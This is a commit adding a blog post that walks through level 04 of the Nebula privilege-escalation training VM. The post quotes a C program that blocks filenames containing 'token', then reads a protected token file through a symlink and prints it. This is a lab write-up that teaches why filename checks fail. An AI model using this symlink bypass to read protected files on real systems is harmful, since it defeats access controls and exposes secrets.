

Before and after one commit to mythicalbits/mythicalbits.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page at 98% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 908 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
adds nebula 04

````diff
--- /dev/null
+++ b/_posts/2020-04-27-nebula-04.md
@@ -0,0 +1,131 @@
+---
+layout: post
+title: "Nebula Series - Level 04"
+---
+
+*Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
+in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
+system race conditions.*
+
+**Level 04** teaches us some misdirection
+
+<!--more-->
+
+Ok, so the first thing to understand is that depending on filenames to prevent unauthorized access is a terrible idea.
+
+Our goal for this level is to obtain the value stored in the `/home/flag04/token` file. We're provided with the following
+source code for the executable at `/home/flag04/flag04`:
+
+```c
+#include <stdlib.h>
+#include <unistd.h>
+#include <string.h>
+#include <sys/types.h>
+#include <stdio.h>
+#include <fcntl.h>
+
+int main(int argc, char **argv, char **envp)
+{
+  char buf[1024];
+  int fd, rc;
+
+  if(argc == 1) {
+      printf("%s [file to read]\n", argv[0]);
+      exit(EXIT_FAILURE);
+  }
+
+  if(strstr(argv[1], "token") != NULL) {
+      printf("You may not access '%s'\n", argv[1]);
+      exit(EXIT_FAILURE);
+  }
+
+  fd = open(argv[1], O_RDONLY);
+  if(fd == -1) {
+      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
+  }
+
+  rc = read(fd, buf, sizeof(buf));
+
+  if(rc == -1) {
+      err(EXIT_FAILURE, "Unable to read fd %d", fd);
+  }
+
+  write(1, buf, rc);
+}
+```
+
+It first checks that more than one argument is supplied.
+
+```c
+  if(argc == 1) {
+      printf("%s [file to read]\n", argv[0]);
+      exit(EXIT_FAILURE);
+  }
+```
+
+The reason it's testing `argc == 1` is because the first argument
+is always the name of the executable itself.
+
+Next it checks if the supplied filename contains the substring "token" using `strstr` from the C stdlib.
+
+```c
+  if(strstr(argv[1], "token") != NULL) {
+      printf("You may not access '%s'\n", argv[1]);
+      exit(EXIT_FAILURE);
+  }
+```
+
+If the substring is found, the app exits after informing the user that they are not allowed to access that file.
+
+We'll want to avoid this.
+
+Next it opens and reads the file into the buffer
+
+```c
+  fd = open(argv[1], O_RDONLY);
+  if(fd == -1) {
+      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
+  }
+
+  rc = read(fd, buf, sizeof(buf));
+
+  if(rc == -1) {
+      err(EXIT_FAILURE, "Unable to read fd %d", fd);
+  }
+```
+
+And finally, it writes the contents to stdout.
+
+```c
+  write(1, buf, rc);
+```
+
+The first argument here is a file descriptor; in this case it's file descriptor 1 - aka STDOUT.
+
+Alright so how do we sirsumvent the security checks?
+
+Enter symbolic links.
+
+A symbolic link is essentially a named pointer to another file. We can create a symbolic link that doesn't contain "token" in
+its name and point it at the token file like
+
+```bash
+level04@nebula:~$ ln -s /home/flag04/token /tmp/trickedya
+
+level04@nebula:~$ ls -l /tmp
+total 0
+lrwxrwxrwx 1 level04 level04 18 2020-04-10 09:00 trickedya -> /home/flag04/token
+```
+
+Now all that's left is to run the app again but hand it the symlink
+
+```bash
+level04@nebula:~$ /home/flag04/flag04 /tmp/trickedya
+06508b5e-8909-4f38-b630-fdb148a848a2
+```
+
+And there it is -- the token we weren't supposed to see!
+
+In summary:
+
+- Don't hand-roll your own security
````
Also changed, not shown: _posts/2020-04-26-nebula-03.md (+0 -1 lines), 3 other files.
